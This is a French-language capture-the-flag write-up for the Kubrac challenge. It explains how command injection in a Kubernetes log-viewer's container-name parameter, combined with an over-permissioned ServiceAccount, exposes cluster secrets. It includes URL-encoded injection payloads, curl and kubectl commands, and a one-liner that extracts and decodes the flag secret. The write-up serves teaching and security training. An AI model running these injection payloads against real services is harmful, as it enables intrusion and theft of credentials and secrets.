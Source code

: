 # Kubrac Write-Up

L'objectif du challenge Kubrac est de se questionner sur la sécurité des applications Kubernetes utilisant des politiques RBAC. Beaucoup d'applications ont besoin de communiquer avec l'api-server du cluster pour monitorer (e.g. Prometheus Exporter), déployer des ressources à la volée (e.g. ArgoCD), ...

Dans ce contexte, Kubrac expose une petite application permettant de parcourir les logs des pods du namespace dans lequel il est déployé, grâce à un ServiceAccount. Toutefois ce ServiceAccount a mal été fait, et possède beaucoup trop de permissions, en particulier pour lire d'autres ressources que les logs des conteneurs de Pods. En effet, lors du debug, il est fréquent de faire un petit `kubectl get all` pour savoir si tout va bien !

En plus de cela, l'application est vulnérable à de la _command injection_ ([CWE-77](https://cwe.mitre.org/data/definitions/77.html)) sur le nom du conteneur...

## Reconnaissance de l'application

On observe rapidement qu'il existe 2 endpoints API:
- `GET /api/v1/containers` qui retourne la liste des conteneurs du namespace
- `GET /api/v1/logs?name=<name>` qui retourne les logs du conteneur donné

En soumettant autre chose qu'un nom de conteneur (en modifiant le HTML local ou en modifiant la requête), on va voir que l'application se comporte bizarrement.

On comprend assez vite que l'application semble injecter le `name` dans une commande kubectl, que l'on valide avec l'envoi d'un `name=-h`.
```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=-h" | jq -r '.data'
```

<details>
<summary>Example</summary>

```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=flip;flop" | jq -r '.data'
error: expected 'logs [-f] [-p] (POD | TYPE/NAME) [-c CONTAINER]'.
POD or TYPE/NAME is a required argument for the logs command
See 'kubectl logs -h' for help and examples
```

</details>

## Injection de commande

Pour facilement injecter des commandes et limiter le bruit, on va donc escape la commande précédente avec `>/dev/null 2>&1 ||true;`. On pourra ainsi soumettre n'importe quelle commande sans avoir à s'inquiéter du comportement de la commande précédente. D'ailleurs, on se rend compte que la commande injectée se termine par `--tail=20`, on ajoute donc le suffixe `;#`, toujours pour retirer le bruit.

Pour injecter notre payload, il va falloir l'encoder. On peut utiliser un site pour cela: [Meyerweb URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)

Vu que la réponse est un JSON, on va manipuler le résultat sous la forme `{"data":"..."}` avec `jq` en faisant `curl -s ... | jq -r '.data'`.

## Reconnaissance Kubernetes

Pour reconnaître un peu plus l'environnement, on exécute un `kubectl get all`.

<details>
<summary>Example</summary>

Payload: `>/dev/null 2>&1 ||true; kubectl get all;#`

Encoded: `%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23`

Call:
```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23 | jq -r '.data'
NAME                                           READY   STATUS    RESTARTS   AGE
pod/monitoring-dep-8cae9fe2-687777959c-8xz2l   1/1     Running   0          30s
pod/popacola-merch-179c01e2-5d896ff7d9-7r4h6   1/1     Running   0          30s

NAME                              TYPE        CLUSTER-IP   EXTERNAL-IP   PORT(S)    AGE
service/monitoring-svc-f239123c   ClusterIP   None         <none>        8080/TCP   28s

NAME                                      READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/monitoring-dep-8cae9fe2   1/1     1            1           30s
deployment.apps/popacola-merch-179c01e2   1/1     1            1           30s

NAME                                                 DESIRED   CURRENT   READY   AGE
replicaset.apps/monitoring-dep-8cae9fe2-687777959c   1         1         1       30s
replicaset.apps/popacola-merch-179c01e2-5d896ff7d9   1         1         1       30s
```

</details>

On reconnaît ce que l'environnement que le _log viewer_ nous montrait. Toutefois, nous voulons savoir ce à quoi nous avons accès afin de trouver notre bonheur !

Pour ce faire, on injecte la commande `kubectl auth can-i --list`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20auth%20can-i%20--list%3B%23 | jq -r ".data"
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
configmaps                                      []                                     []               [get list]
pods/log                                        []                                     []               [get list]
pods                                            []                                     []               [get list]
replicationcontrollers                          []                                     []               [get list]
secrets                                         []                                     []               [get list]
services                                        []                                     []               [get list]
daemonsets.apps                                 []                                     []               [get list]
deployments.apps                                []                                     []               [get list]
replicasets.apps                                []                                     []               [get list]
statefulsets.apps                               []                                     []               [get list]
horizontalpodautoscalers.autoscaling            []                                     []               [get list]
cronjobs.batch                                  []                                     []               [get list]
jobs.batch                                      []                                     []               [get list]
..... (truncated)
```

On se rend compte que pour une raison obscure (probablement du debug) on a accès en lecture aux secrets. On va donc les lister avec `kubectl get secret`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%3B%23 | jq -r ".data"
NAME            TYPE     DATA   AGE
flag-2b3b469a   Opaque   2      10m
```

Avec un seul secret, on va aller lire son contenu avec `kubectl describe secret/flag-2b3b469a`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20describe%20secret%2Fflag-2b3b469a%3B%23 | jq -r ".data"
Name:         flag-2b3b469a
Namespace:    ns-48e1560f
Labels:       app.kubernetes.io/component=kubrac
              app.kubernetes.io/name=monitoring
              app.kubernetes.io/part-of=kubrac
Annotations:  pulumi.com/autonamed: true

Type:  Opaque

Data
====
top-secret:  28 bytes
flag:        66 bytes
```

On va aller chercher l'attribut `flag`, qui semble être ce que nous cherchons, avec `kubectl get secret/flag-2b3b469a --template={{.data.flag}}`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%2Fflag-2b3b469a%20--template%3D%7B%7B.data.flag%7D%7D%3B%23 | jq -r ".data" | base64 -d
24hIUT{KubÉ®nétE5 rbã¢ å®3-p¤WÊRFùll BÙt-ÐÂNgë®ouS}
```

## TL;DR;

One-liner pour exploit l'injection de command et les permissions trop large du ServiceAccount.

```bash
curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20%22secret%2F%24(kubectl%20get%20secret%20-o%20jsonpath%3D%27%7B.items%5B*%5D.metadata.name%7D%27)%22%20--template%3D%7B%7B.data.flag%7D%7D%7Cbase64%20-d%3B%23 | jq -r '.data'
```

On peut se faire un petit soft dans son langage favori et faire un alias sur `kubectl` pour directement faire nos calls depuis la CLI.

On peut récupérer l'attribut `top-secret` avec `kubectl get secret/flag-2b3b469a --template='{{ index .data "top-secret"}}' | base64 -d` mais on se fait Rick Roll...
